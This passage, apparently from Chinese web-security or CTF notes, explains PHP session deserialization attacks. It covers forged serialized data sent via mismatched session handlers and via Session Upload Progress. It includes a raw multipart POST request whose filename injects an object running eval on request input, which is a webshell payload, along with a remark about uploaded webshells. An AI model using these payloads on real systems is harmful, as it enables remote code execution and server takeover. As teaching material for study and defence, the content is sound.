 当访问 foo1.php 时，提交数据如下：

```php
foo1.php?ryat=|O:4:"ryat":1:{s:2:"hi";s:4:"ryat";}
```

脚本会按照 php_serialize 处理器的序列化格式存储数据，访问 foo2.php 时，则会按照 php 处理器的反序列化格式读取数据，这时将会反序列化伪造的数据，成功实例化了 ryat 对象。这个场景的利用需要能够构造 Session 的值，如果没有提供写入 Session 的地方，可以利用 Session Upload Progress。

------

注意：如果利用这种方式上传了 webshell，读取文件的时候需要使用绝对路径，例如
/opt/lampp/htdocs/index.php

------

## Session Upload Progress

上传文件时，如果 POST 一个名为 PHP_SESSION_UPLOAD_PROGRESS 的变量，就可以将 filename 的值赋值到session 中，filename 的值如果包含双引号，还需要进行转义，上传的页面的写法如下：

```php
<form action="http://example.com/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

最后 Session 就会保存上传的文件名。如果没有提供写入 Session 的地方，可以用这种方法。POST 请求的数据包：

```powershell
POST / HTTP/1.1
Host: web.jarvisoj.com:32784
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypN9LkEc0KCMj7TfC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3208.0 Safari/537.36
Cookie: PHPSESSID=jfdu23je5jlu43sfgc3akp3037
Content-Length: 302

------WebKitFormBoundarypN9LkEc0KCMj7TfC
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundarypN9LkEc0KCMj7TfC
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:39:\"echo \"waterfood\"; eval($_REQUEST[\"v\"]);\";}"
Content-Type: text/plain

123
------WebKitFormBoundarypN9LkEc0KCMj7TfC--
```

# 文件包含
